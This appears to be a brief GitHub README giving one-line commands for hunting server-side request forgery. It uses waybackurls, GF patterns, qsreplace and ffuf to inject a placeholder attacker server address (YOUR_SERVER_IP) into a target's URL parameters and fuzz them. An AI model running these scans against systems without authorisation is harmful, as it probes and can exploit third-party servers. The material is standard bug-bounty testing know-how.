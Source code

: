 # ONE-LINE COMMANDs

<b> Make sure you have Go installed on your Machine </b>

> First method
- Use [Waybackurls](https://github.com/tomnomnom/waybackurls) by Tomnomnom to Fetch URLS for Specific Target.
- Use [GF patterns](https://github.com/1ndianl33t/Gf-Patterns) to find Possible ssrf Vulnerable Parameters.

## Using qsreplace
> Second Method
- [qsreplace](https://github.com/tomnomnom/qsreplace)

```sh
cat /path/to/urls.txt | grep = | qsreplace -a | tee equals.txt
```

```sh
cat equals.txt | qsreplace http://YOUR_SERVER_IP | tee ssrf.txt
```

## Hunt ssrf using FFUF?

```sh
ffuf -w ssrf.txt:FUZZ -u FUZZ -mc 200
```

```sh
ffuf -u FUZZ -w ssrf.txt:FUZZ -replay-proxy http://127.0.0.1:8080 -mc 200
```

